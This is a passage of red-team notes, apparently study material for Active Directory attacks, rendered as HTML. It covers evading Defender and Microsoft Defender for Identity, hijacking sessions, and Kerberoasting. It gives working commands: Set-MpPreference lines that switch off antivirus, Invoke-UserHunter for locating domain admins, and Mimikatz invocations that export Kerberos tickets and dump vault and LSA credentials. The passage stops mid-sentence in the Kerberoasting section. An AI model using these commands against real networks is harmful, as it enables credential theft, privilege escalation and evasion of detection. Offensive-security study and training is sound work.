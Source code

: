 ago</li></ol><ol type="1" id="0473fa82-6b63-4811-902e-3fec2c6d991f" class="numbered-list" start="6"><li><code>objectSID</code> is different than the domain’s</li></ol><ol type="1" id="02bdd46d-0389-4c34-b4d1-635d6902fbb6" class="numbered-list" start="7"><li><code>whenCreated</code> is default or very new or old</li></ol><h2 id="973ea91f-f729-4134-b079-50487701bef4" class="">Other</h2><ul id="932627fe-c332-4e02-89ee-3d6bd5a00663" class="bulleted-list"><li style="list-style-type:disc">with local admin access, run <code>Set-MpPreference -DisableRealtimeMonitoring $true</code> to temporarily disable Defender<ul id="f611f5db-fb44-4ce5-9159-7ee3350c1728" class="bulleted-list"><li style="list-style-type:circle">note that it is more silent (and preferred) to use <code>Set-MpPreference -DisableIOAVProtection $true</code> as this will specifically only target AV</li></ul><ul id="e1ee7f99-929b-4824-99bf-807870eccda2" class="bulleted-list"><li style="list-style-type:circle">disabling defender through command line does not work for Windows 10 and 11, Windows Server 2022, Windows Server 2019, and Windows Server  version 1803 or later</li></ul></li></ul><ul id="b75fd5e6-c805-4de0-9933-2ef46d88500a" class="bulleted-list"><li style="list-style-type:disc">avoid communicating with the DC as much as possible</li></ul><ul id="36a4f36c-efb6-4d97-97fd-219035e66bc9" class="bulleted-list"><li style="list-style-type:disc">avoid running targeted LDAP queries (MDI checks for potentially malicious queries)<ul id="e7690892-ae4f-4b20-a28e-e668fdffdb5c" class="bulleted-list"><li style="list-style-type:circle">it is more opsec safe to request for as much as possible and then filter the output (better chances of bypassing MDI)</li></ul></li></ul><h1 id="79e5501a-9162-4b00-b8d0-1d68cf9c6ac2" class="">Domain Privilege Escalation</h1><p id="d192387d-5e64-4347-ab1f-c82e0dd0147a" class="">⭐ Keep your eyes on the goals of your operation, and avoid getting DA privileges if it is not required. This will greatly help in avoiding detection.</p><h2 id="2774110f-0e18-4923-a718-481d1cc14812" class="">Credential Exfiltration</h2><h3 id="fb2e6a25-75a6-48bf-bc25-ecc1995abc92" class="">Session Hijack</h3><ul id="f805644f-a52b-423e-bf0c-9d52073272ab" class="bulleted-list"><li style="list-style-type:disc">if user has active session in workstation where you have local admin, you can obtain their TGT (even if they are a domain admin)<ul id="a4b233b4-3435-4073-9925-5276fca78498" class="bulleted-list"><li style="list-style-type:circle">can be found with <code>Invoke-UserHunter -GroupName &quot;&lt;GROUP_NAME&gt;&quot;</code><ul id="ed7a3c77-33cc-4e88-9804-d7abbcd73ff2" class="bulleted-list"><li style="list-style-type:square">add the <code>-CheckAccess</code> parameter to check if you have local admin access</li></ul></li></ul><ul id="4ab8f06c-afca-4468-8bf2-929d178f440e" class="bulleted-list"><li style="list-style-type:circle">works by using <code>Get-NetGroupMember</code> and <code>Get-NetSession</code></li></ul></li></ul><ul id="56743d28-3f7c-4d6f-b1ae-ee1021d4173b" class="bulleted-list"><li style="list-style-type:disc">you can then extract the user’s TGT with <code>Invoke-Mimikatz –Command &#x27;&quot;sekurlsa::tickets /export&quot;’</code></li></ul><ul id="655ad4a2-10af-4fac-9245-72b8e4286c84" class="bulleted-list"><li style="list-style-type:disc">find which computers a DA has a session on with <code>Find-DomainUserLocation</code></li></ul><h3 id="af17b76c-7b9e-4475-a403-5ca753280ee6" class="">Other</h3><p id="30bcf76b-167c-461a-beac-1d1dea746fef" class="">These are several different methods to exfiltrate credentials</p><table id="0ea09618-3374-4d30-97af-7df3b03418d3" class="simple-table"><tbody><tr id="b2d07be2-5e34-42b4-98fc-d5fac525b9c7"><td id="RNjH" class="" style="width:294px"><code>Invoke-Mimikatz -Command &#x27;&quot;token::elevate&quot; &quot;vault::cred /patch&quot;&#x27;</code></td><td id="Ze\=" class="" style="width:426px">Extract creds from <a href="https://attack.mitre.org/techniques/T1555/004/">credential vault</a> (can contain creds used for scheduling tasks, web credentials, etc.)</td></tr><tr id="4ba0005b-4aa5-4c34-af04-0982616f5134"><td id="RNjH" class="" style="width:294px"><code>Invoke-Mimikatz -Command &#x27;&quot;kerberos::list /export&quot;&#x27;</code></td><td id="Ze\=" class="" style="width:426px">Extract tickets</td></tr><tr id="2241b49e-5fbd-48d0-aa81-67f496db41a5"><td id="RNjH" class="" style="width:294px"><code>Invoke-Mimikatz -Command &#x27;&quot;lsadump::lsa /patch&quot;&#x27;</code></td><td id="Ze\=" class="" style="width:426px">Dump local creds</td></tr></tbody></table><ul id="d478ea34-93a6-4422-b144-0cc8ef722de8" class="bulleted-list"><li style="list-style-type:disc">note the vault exfiltration technique is highly important as this may reveal the creds of additional users  </li></ul><h2 id="26cf58c6-356f-487c-aa9c-4ca01b8c1808" class="">Kerberoast</h2><ul id="695892f8-26f7-4d20-b9c5-c47d580036b2" class="bulleted-list"><li style="list-style-type:disc">effective as service accounts are often ignored and passwords are rarely changed<ul id="9f7e9645-da15-408a-a989-c1a6783686e3" class="bulleted-list"><li style="list-style-type:circle">note machine accounts have 120 character passwords</li></ul><ul id="9368c54a-dc2e-4ee0-a07d-4947c9cd13d6" class="bulleted-list"><li style="list-style-type:circle">kerberoast is only effective against users who are being used as service accounts<ul id="3eafcf14-3b4b-4446-824f-952d493e2a5f" class="bulleted-list"><li style="list-style-type:square">can be found with <code>Get-NetUser -SPN</code> or <code>Get-ADUser -Filter {ServicePrincipalName -ne &quot;$null&quot;} -Properties ServicePrincipalName</code> </li></ul></li></ul></li></ul><ul id="bda59285-f2f2-4539-bf07-53fefa70dda9" class="bulleted-list"><li style="list-style-type:disc">service accounts typically have privileged